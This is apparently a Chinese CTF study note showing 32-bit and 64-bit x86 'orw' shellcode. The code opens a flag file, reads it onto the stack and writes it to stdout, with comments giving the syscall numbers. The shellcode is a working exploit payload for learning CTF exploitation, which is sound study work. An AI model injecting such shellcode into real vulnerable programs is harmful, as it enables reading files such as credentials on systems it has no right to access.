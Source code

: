 
### 64位与32位的汇编

#### 32位

```
    ; "/home/orw/flag\x00" 保存到栈上
    ; 小端序
    ; 要注意给字符串结尾加上 '\x00'
    push   0x006761
    push   0x6c662f77
    push   0x726f2f65
    push   0x6d6f682f
    ; open("/home/orw/flag", O_RDONLY)
    ; #define O_RDONLY 0 
    mov eax,5       ; open() 系统调用号是 5
    mov ebx,esp ; "/home/orw/flag"
    xor ecx,ecx     ; O_RDONLY = 0
    xor edx,edx
    int 0x80        ; int 80h 会报错
    ; 返回 fd 保存到 eax 中

    ; read(fd, buf, count)
    mov ebx,eax     ; fd
    mov eax,3       ; read() 的系统调用号是 3
    mov ecx,esp     ; buf
    mov edx,0x30    ; count
    int 0x80

    ; write(fd, buf, count)
    mov eax,4       ; write() 的系统调用号是 4
    mov ebx,1       ; fd=1, write到标准输出
    mov ecx,esp     ; buf
    mov edx,0x30    ; count
    int 0x80
```

#### 64位

```
   ; open("flag", 0)
   0:   68 66 6c 61 67          push   0x67616c66
   5:   6a 02                   push   0x2
   7:   58                      pop    rax
   8:   48 89 e7                mov    rdi,rsp
   b:   48 31 f6                xor    rsi,rsi
   e:   0f 05                   syscall 

   ; read(fd, rsp, 0x20)
  10:   48 89 c7                mov    rdi,rax
  13:   48 31 c0                xor    rax,rax
  16:   48 89 e6                mov    rsi,rsp
  19:   6a 20                   push   0x20
  1b:   5a                      pop    rdx
  1c:   0f 05                   syscall 

   ; write(1, rsp, 0x20)
  1e:   6a 01                   push   0x1
  20:   58                      pop    rax
  21:   6a 01                   push   0x1
  23:   5f                      pop    rdi
  24:   48 89 e6                mov    rsi,rsp
  27:   6a 20                   push   0x20
  29:   5a                      pop    rdx
  2a:   0f 05                   syscall
```